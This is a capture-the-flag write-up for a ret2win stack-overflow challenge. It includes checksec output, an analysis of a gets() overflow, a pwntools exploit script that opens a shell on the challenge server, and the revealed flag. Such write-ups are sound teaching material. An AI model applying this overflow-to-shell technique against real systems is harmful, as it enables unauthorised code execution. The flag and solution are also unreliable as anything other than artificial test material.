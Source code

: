 https://ctftime.org/event/2512

# Intro To Pwn

Classic win function pwn.

-ProfNinja

nc 0.cloud.chals.io 13545

## Analysis

We can see that there are no canaries and no PIE:

```
[*] '/Users/user/ctf/pwn/intro_to_pwn/pwnme'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

`vuln` @ `0x11b0`
- `gets(local_38)`
    - we can use this to control the return address on the stack

`win` @ `0x1196`
- calls `system("/bin/sh")`
- `0x119e` or `win`+8 is the address of the `lea`
    - returning here allows us to avoid unaligning the stack

## Solution

1) Send 0x38 bytes of data to reach the return address
2) Send an 8 byte value containing the address of `win`+8 to ret2win

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./pwnme", checksec=True)
context.binary = elf

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("0.cloud.chals.io", 13545)

payload = b""
payload += b"A" * 0x38
payload += p64(elf.sym["win"] + 8)
p.sendline(payload)

p.sendline(b"/bin/cat flag.txt")

p.interactive() # udctf{h00r4y_I_am_a_pwn3r_n0w}
```

## Flag
`udctf{h00r4y_I_am_a_pwn3r_n0w}`

smiley 2024/11/10
